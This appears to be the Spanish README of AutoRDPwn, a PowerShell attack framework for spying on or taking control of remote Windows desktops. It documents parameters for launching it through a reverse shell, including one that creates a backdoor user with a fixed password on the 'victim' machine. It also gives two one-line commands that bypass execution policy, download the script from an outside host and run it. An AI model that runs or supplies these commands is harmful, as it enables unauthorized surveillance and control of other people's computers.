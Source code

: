 Al utilizarse de forma remota en una shell inversa, es necesario utilizar los siguientes parámetros:

**-admin / -noadmin** -> Dependiendo de los permisos de los que dispongamos, utilizaremos una u otra

**-nogui** -> Esto evitará cargar el menú y algunos colores, garantizado su funcionalidad

**-lang** -> Elegiremos nuestro idioma (English, Spanish, French, German, Italian, Russian o Portuguese)

**-option** -> Al igual que con el menú, podremos elegir de que forma lanzar el ataque

**-shadow** -> Decidiremos si queremos ver o controlar el equipo remoto

**-createuser** -> Este parámetro es opcional, creará el usuario AutoRDPwn (contraseña: AutoRDPwn) en el equipo víctima


**Ejecución local en una línea:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"
```

**Ejemplo de ejecución remota en una línea:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1 -admin -nogui -lang Spanish -option 4 -shadow control -createuser"
```


**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Capturas de pantalla
![autordpwn_es1](https://user-images.githubusercontent.com/34335312/63512842-06136500-c4e5-11e9-8cec-4049b95db2c1.png)
![autordpwn_es2](https://user-images.githubusercontent.com/34335312/63512843-06136500-c4e5-11e9-97a7-3d2a6e4c17e0.png)


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
Este framework utiliza los siguientes scripts y herramientas:

• Chachi-Enumerator de **Luis Vacas** -> https://github.com/Hackplayers/PsCabesha-tools

• Get-System de **HarmJ0y & Matt Graeber** -> https://github.com/HarmJ0y/Misc-PowerShell

• Invoke-DCOM de **Steve Borosh** -> https://github.com/rvrsh3ll/Misc-Powershell-Scripts

• Invoke-MetasploitPayload de **Jared Haight** -> https://github.com/jaredhaight/Invoke-MetasploitPayload
